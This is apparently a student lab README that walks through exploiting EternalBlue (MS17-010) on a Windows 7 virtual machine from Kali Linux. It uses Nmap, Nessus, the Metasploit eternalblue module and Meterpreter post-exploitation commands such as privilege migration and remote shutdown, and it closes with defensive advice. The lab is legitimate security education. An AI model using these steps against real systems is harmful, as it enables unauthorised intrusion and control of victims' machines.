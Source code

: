 # MS17-010 | EternalBlue Vulnerability Demonstration

**Disclaimer** 

**This activity is intended for Ethical hacking and education purposes only. Unauthorised access or testing is illegal and unethical. Always follow laws and regulations.**

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

## Steps-by-steps Process
### Setup Oracle virtual box

  ![oracle_virtual_box.PNG](Screenshot/oracle_virtual_box.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![Ping Command](Screenshot/Ping_test.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![start_nessusd](Screenshot/start_nessusd.PNG)
 

### Vulnerability report

 ![Vulnerability_Report](Screenshot/Vulnerability_Report.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![nmap.PNG](Screenshot/nmap.PNG)


## Exploitation

### Commands:

**Msfconsole**

  ![msfconsole](Screenshot/msfconsole.PNG)

**search ms1_010**

  ![search_ms17_010](Screenshot/search_ms17_010.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![use](Screenshot/use.PNG)
 
**option command**
 
 ![Option_command](Screenshot/Option_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![meterpreter](Screenshot/meterpreter.PNG)

 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![Get_system_information](Screenshot/Get_system_information.PNG)

### System Information

 ![system_information.PNG](Screenshot/system_information.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![privileged_access](Screenshot/privileged_access.PNG) 

### Screenshot command
 
 ![Screenshot_Command](Screenshot/Screenshot_Command.PNG)
 
### Going into Desktop
 
 ![windows_Remote_Desktop.](Screenshot/windows_Remote_Desktop.PNG)
 
### Creating folder
 
 ![creating_folder_remotely](Screenshot/creating_folder_remotely.PNG)

 
 ![creating_folder_remotely](Screenshot/creating_folder_remotely.PNG)
 

### Shutdown command
 
![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**








